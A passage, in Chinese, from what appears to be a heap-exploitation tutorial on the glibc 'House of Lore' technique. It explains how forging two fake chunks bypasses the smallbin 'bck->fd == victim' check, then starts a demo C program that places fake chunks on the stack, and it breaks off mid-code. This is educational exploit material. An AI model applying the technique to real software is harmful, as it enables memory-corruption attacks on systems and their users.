    从下面的这部分我们可以看出，如果我们可以修改 small bin 的**最后一个 chunk 的 bk** 为我们指定内存地址的 fake chunk，并且同时 **满足bck->fd == victim** 的检测（需要伪造两个chunk），那么我们就可以使得 **small bin 的 bk 恰好为我们构造的 fake chunk**。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk：

   ```c
                   // 获取 small bin 中倒数第二个 chunk 。
                   bck = victim->bk;
                   // 检查 bck->fd 是不是 victim，防止伪造
                   if (__glibc_unlikely(bck->fd != victim)) {
                       errstr = "malloc(): smallbin double linked list corrupted";
                       goto errout;
                   }
                   // 设置 victim 对应的 inuse 位
                   set_inuse_bit_at_offset(victim, nb);
                   // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                   bin->bk = bck;
                   bck->fd = bin;
   ```


## 示例代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  fprintf(stderr, "Create a fake chunk on the stack");
  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
```